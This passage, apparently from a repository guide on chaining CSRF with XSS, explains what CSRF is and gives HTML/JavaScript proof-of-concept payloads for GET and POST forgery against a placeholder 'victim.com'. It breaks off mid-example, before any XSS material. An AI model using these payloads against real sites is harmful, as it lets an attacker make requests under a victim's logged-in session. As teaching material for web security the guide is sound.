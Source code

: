 # CSRF and XSS Chaining Guide

## **Overview**
This document outlines the different types of CSRF (Cross-Site Request Forgery) attacks and how they can be chained with XSS (Cross-Site Scripting) vulnerabilities to amplify the attack's impact.

---

## **1. What is CSRF?**

CSRF is an attack that tricks a victim’s browser into making an unintended request to a target server on behalf of the victim, leveraging their authenticated session.

### **Key Characteristics:**
- Exploits the browser’s automatic inclusion of cookies, sessions, or authentication headers.
- Relies on the victim visiting a malicious website controlled by the attacker.

---

## **2. Types of CSRF**

### **A. Simple GET CSRF**
This type of CSRF leverages a `GET` request to perform actions on the target server.

#### **Example:**
```html
<html>
  <body>
    <script>
      window.location = "http://victim.com/action?param=value";
    </script>
  </body>
</html>
```

#### **How It Works:**
- The victim visits the malicious site.
- The browser sends a `GET` request to the target server, using the victim’s cookies.

---

### **B. POST CSRF**
This type of CSRF forges a `POST` request, which is often used for sensitive actions like form submissions.

#### **Example:**
```html
<html>
  <body>
    <script>
      const form = document.createElement('form');
      form.method = 'POST';
      form.action = 'http://victim.com/submit';

      const input = document.createElement('input');
      input.type = 'hidden';
      input.name = 'param';
      input.value = 'value';
      form.appendChild(input);

      document.body.appendChild(form);
```